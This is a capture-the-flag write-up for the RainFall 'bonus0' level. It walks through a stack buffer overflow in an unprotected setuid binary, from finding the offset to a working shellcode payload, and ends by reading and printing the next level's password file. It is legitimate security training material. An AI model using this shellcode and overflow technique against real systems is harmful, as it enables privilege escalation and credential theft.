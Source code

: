 Bonus0 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus0/bonus0
```

Bonus0 rights:
```Shell
-rwsr-s---+ 1 bonus1 users 5566 Mar  6  2016 bonus0
```

Testing the binary:
```Shell
bonus0@RainFall:~$ ./bonus0
 - 
test
 - 
truc
test truc
```

Let's decompile it with Hex-Rays on https://dogbolt.org/ and see what is there:
- the code uses `strcpy()`and `strncpy()`, which we can exploit for a buffer overflow
- the resulting string is of size ARG1 + ARG2 + ONE-SPACE + ARG2
- the buffer in `main()`has a size of [42]
While testing the binary, we also realise that:
- arg1 will accept a maximum of 19 bytes and add a `\0`at the end of the string (with `strcpy()`), so if you give it 20 bytes it will continue reading past 20
- the buffers of arg1 and arg2 sit next to each other

We can therefore write a shellcode as a first argument, however ours is 21 bytes. So we can write the first 20 bytes, and start the second argument with 1 byte.

Next, we must find `EIP` to overwrite it. We know that the buffer is [42], so let's try to overflow it with a pattern of 20 bytes and 19 bytes. 20 is the maximum you can give to ARG1, and 19 is the maximum for ARG2 in order to null-terminate the string. If you don't null-terminate your string, `strcpy()` will read further in memory and add an unpredictable number of characters into the buffer, resulting in an unreliable number to base your offset on. The size of what we are sending will be 20 + 19 + 19 = 58 because ARG2 is copied twice.

```Shell
(gdb) run
Starting program: /home/user/bonus0/bonus0 
 - 
Aa0Aa1Aa2Aa3Aa4Aa5Aa //20bytes
 - 
Aa0Aa1Aa2Aa3Aa4Aa5A //19bytes
Aa0Aa1Aa2Aa3Aa4Aa5AaAa0Aa1Aa2Aa3Aa4Aa5A Aa0Aa1Aa2Aa3Aa4Aa5A

Program received signal SIGSEGV, Segmentation fault.
0x35614134 in ?? ()
```
This gives us 14. When you take 20(ARG1) + 19(ARG2) + 1(the space added) + 14(ARG2-SEGFAULT), you get an offset of 54.

Now we need the address of the start of the buffer (in which we stored our shellcode):
```Shell
bonus0@RainFall:~$ ltrace ./bonus0
[...]
strcpy(0xbffff736, "") = 0xbffff736
[...]
```
`ltrace` shows us that the first arg of `strcpy()` is the destination at which our input will be copied. It is therefore the address of our buffer!

These entire 54 bytes will be padded with:
- the shellcode
- `A`s for pure padding
- the address of the buffer
However, we must take into account the fact that the added space shifts our input by 1 byte. So we must take 1 byte out of the padding and put it at the end of our payload in order to make sure the address overwrites `EIP` correctly.

Finally, our two arguments will be:
- $(python -c 'print("\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd")')
- $(python -c 'print("\x80" + "A" * 13  + "\xbf\xff\xf7\x36"[::-1] + "A")')

And the result is:
```Shell
level2@RainFall:~$ (python -c 'print("\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd")'; python -c 'print("\x80" + "A" * 13  + "\xbf\xff\xf7\x36"[::-1] + "A")'; cat -) | ./bonus0
 - 
 - 
1���
    Qh//shh/bin��̀AAAAAAAAAAAAA6���A �AAAAAAAAAAAAA6���A
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
